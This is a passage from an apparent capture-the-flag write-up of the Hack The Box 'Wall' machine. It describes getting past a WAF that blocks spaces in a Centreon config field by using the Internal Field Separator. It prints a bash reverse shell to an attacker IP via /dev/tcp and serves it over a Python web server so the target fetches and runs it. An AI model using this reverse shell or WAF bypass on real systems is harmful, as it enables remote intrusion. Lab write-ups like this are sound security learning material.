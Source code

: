 So I spent an awful long time right here. In trying to figure out why the exploit wasn't working I realized that creator of the box is conveniently the author of the exploit I was trying to execute -- Askar (@mohammadaskar2) -- I suppose he did not want it to be so easy to execute. In taking a look into the centreon config GUI (since we had the admin username and password and could log in) I located the field that we were getting 403'd on.

![Centreon Config](./images/centreon_misc.png)
**Figure 3:** Centreon Config

Playing around with this, I realized that there were certain characters that would be accepted and certain characters that were triggering the 403. What does this sound like? It sounds like a WAF to me. In my day job I remember a certain vulnerability that also affected Equifax that we solved by using a technique similar to what I think is being employed here.

Space is one of the characters that was explcitly disallowed. How do we get around this? Well - the Internal Field Seperator is the tool for this job.

First let's create a reverse shell called shell.sh:

```console
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.75/42069 0>&1
```
and lets get that served up on our webserver:
```console
root@endeavour:~/htb/wall# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```
and then we drop the below command into the centreon GUI, give it execution rights, and then execute it
